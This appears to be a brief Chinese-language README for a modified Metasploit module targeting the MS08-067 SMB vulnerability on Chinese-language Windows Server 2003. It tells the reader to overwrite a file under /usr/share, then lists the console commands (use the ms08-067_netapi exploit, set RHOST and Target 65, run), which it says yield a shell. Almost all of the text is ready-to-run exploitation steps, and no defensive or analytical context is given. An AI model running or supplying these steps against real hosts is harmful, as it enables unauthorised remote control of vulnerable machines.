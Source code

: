 ms08-067_Server_2003_Chinese_Version

## 使用方法 ##
覆盖文件（在`/usr/share`下）
```
use exploit/windows/smb/ms08-067_netapi
set RHOST 192.168.1.11
set Target 65
run
```
即可得到shell
